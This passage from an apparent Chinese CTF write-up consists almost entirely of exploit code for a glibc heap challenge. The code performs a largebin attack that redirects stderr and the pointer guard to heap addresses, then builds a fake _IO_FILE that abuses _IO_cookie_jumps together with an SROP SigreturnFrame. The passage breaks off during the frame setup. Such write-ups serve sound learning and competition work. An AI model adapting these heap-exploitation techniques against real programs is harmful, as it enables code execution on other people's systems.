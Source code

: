 [![](assets/1698893163-0644d387d7c02bae85895da8d694d276.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028190023-315ab050-7581-1.png)

然后进行 largebin attack

```bash
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)
```

分别将 stderr 和 guard 改为堆地址

构造 fake\_IO 以及 SROP 链

```bash
next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

```